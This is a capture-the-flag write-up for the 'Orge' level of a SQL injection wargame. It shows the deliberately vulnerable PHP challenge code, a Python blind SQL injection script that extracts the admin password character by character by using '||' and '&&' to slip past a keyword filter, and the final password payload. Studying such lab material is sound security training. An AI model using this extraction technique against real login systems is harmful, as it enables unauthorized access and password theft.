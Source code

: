 # **Orge**

```
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();   
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");   
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");   
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";   
     
  $_GET[pw] = addslashes($_GET[pw]);   
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");   
  highlight_file(__FILE__);   
?>
```

It's similar to Level `Orc` but change `or` to `||`, `and` to `&&`. 

```
import urllib.parse
import http.client

HTTP=http.client.HTTPConnection("los.eagle-jump.org")
Url="/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
Headers={"Cookie":"__cfduid=[your Own cfduid]; PHPSESSID=[your Own PHPSESSID]"} #check your own cookie then insert the correct value to make connection success, or you will get nothing return.
Passwd=""
 
for i in range(len(Passwd)+1,100):
    for c in "0123456789abcdefghijklmnopqrstuvwxyz+":

        Payload="' || id='admin' && mid(pw,"+str(i)+",1)='"+c

        HTTP.request("GET",Url+urllib.parse.quote(Payload),"",Headers)

        #print (Payload)
                
        if (b"Hello admin" in HTTP.getresponse().read()):
            Passwd+=c
            print ("[+] Found: %c" % c)

            HTTP.request("GET",Url+urllib.parse.quote(Passwd),"",Headers)
            if (b"Clear" in HTTP.getresponse().read()):
                print ("[*] Password: %s" % Passwd)
                break

print ("[!] Not Found")
print ("[*] Password: %s" % Passwd)
```

![](https://i.imgur.com/UnOiqS2.png)

It doesn't exit after first SQL statement return FALSE, so just paste the correct password to make second SQL statement become TRUE then pass it.

Payload is : `?pw=6c864dec`
